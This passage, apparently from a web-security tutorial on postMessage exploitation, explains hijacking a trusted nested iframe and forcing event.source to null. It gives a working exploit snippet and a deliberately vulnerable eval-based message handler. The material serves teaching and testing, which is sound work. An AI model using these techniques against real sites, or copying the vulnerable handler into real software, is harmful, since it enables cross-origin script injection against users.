 It seems pretty safe, as the iframe is made by the website itself, and often contains trusted content. However, if you can inject an Open Redirect into the iframe or if it can proxy messages to the parent, you'll still be able to send messages from there.

If the parent page is itself framable, you can become the `top` and from there navigate any inner iframes to any location, including yours. That way you can also gain control over the "trusted" iframe and send messages from it that the parent will trust. This is similar to exploiting [#nested-iframe](postmessage-exploitation.md#nested-iframe "mention").

<pre class="language-html" data-title="Exploit"><code class="lang-html">&#x3C;iframe id="iframe" src="https://example.com">&#x3C;/iframe>
&#x3C;script>
  // Data to send to the handler
  window.data = "alert(origin)";
  // After example.com has loaded and the frame was created, redirect it to our page
  iframe.onload = () => {
    const inner = iframe.contentWindow.frames[0];
<strong>    inner.location = "about:blank";  // Hijack the inner iframe
</strong>  
    const interval = setInterval(() => {
      inner.origin;  // When it becomes same-origin
      clearInterval(interval);
<strong>      inner.eval("parent.postMessage(top.data, '*')");  // Send to parent from inner
</strong>    })
  }
&#x3C;/script>
</code></pre>

### `event.source` null

There is a way to make `event.source` for your malicious message `null` ([first shared by Omid Rezaei](https://x.com/omidxrz/status/1924490901830639986/photo/1)). This is useful if the security check depends on this value being truthy, for example:

<pre class="language-html" data-title="Vulnerable example"><code class="lang-html">&#x3C;iframe id="trusted" src="...">&#x3C;/iframe>
&#x3C;script>
  const trusted = document.getElementById("trusted");
  window.addEventListener("message", (e) => {
<strong>    if (e.source &#x26;&#x26; e.source !== trusted.contentWindow) return;
</strong>
    eval(e.data);
  });
&#x3C;/script>
</code></pre>

Here, the `e.source &&` part requires that `e.source` is set, and only if so, will check if it is correct. That means if it would be `null`, you would bypass the check.

To make it null, send a message from your own iframe that you instantly remove after sending it. The frame reference will be gone by the time the target receives the message, and cause `e.source` to be null ([source](https://groups.google.com/a/chromium.org/g/chromium-discuss/c/-phtOYVPSHQ/m/zxwRil1Nz0gJ)).\
Our iframe can get a reference to the target page by saving it in a same-origin variable or through [`opener`](https://developer.mozilla.org/en-US/docs/Web/API/Window/opener). Check out the generic exploit below:

